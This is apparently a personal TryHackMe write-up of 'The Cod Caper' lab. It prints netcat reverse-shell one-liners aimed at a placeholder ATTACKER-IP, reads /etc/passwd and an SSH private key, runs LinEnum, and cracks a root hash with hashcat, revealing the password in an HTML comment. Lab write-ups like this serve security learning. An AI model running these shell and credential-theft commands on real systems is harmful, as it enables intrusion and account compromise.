 ```yaml
---
title: THM The Cod Caper
date: 2021-01-13 22:50:00 +0000
categories: [Security, TryHackMe]
tags: [thm, codcapper, writeup]     # TAG names should always be lowercase
---
```


Task 5: Command Execution
We got access to a web page where we can run some linux command and receive the result directly in our webpage.
Try basic stuf like pwd or ls give us some result.
ls -l | wc -l to have the number of files inside current directory.

Checking /etc/passwd we found a user named pingu.

Did not succeed to have a stable shell with netcat (nc -e /bin/sh <ip> <port> or even more complicated with something like rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f)
Success to have a reverse shell with
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol



find / -user pingu
we found the path to the ssh rsa key (cat /home/pingu/.ssh/id_rsa)
Did not succeed to hack the RSA passphrase

After some research inside the box, we found an interresting folder in /var. Password of pingu is inside.

Task 6: LinEnum
Choose a metod to send LinEnum.sh file into the target system (SCP or setup a simpleHTTPServer inside your own attack machine).
Then, upgrade the permission with chmod +x LinEnum.sh and then execute LinEnum.sh and, as specified inside the room, check the SUID files analysis result. You will easily found the requested one.

Try to execute this file without success. It seems that the file is waiting for an entry. Let's continue the room.

Task 7: pwndbg
Nothing to do, just follow the room description and do it to understand

Task 8: Binary-Exploitation: Manually
Nothing to do, just follow the room description and do it to understand

Task 9: Binary-Exploitation: The pwntools way
Nothing to do, just follow the room description and do it to understand

Task 10: Finishing the job
hashcat -a 0 -m 1800 root.hash /usr/share/wordlists/rockyou.txt
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:l*******h
<!-- $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish -->

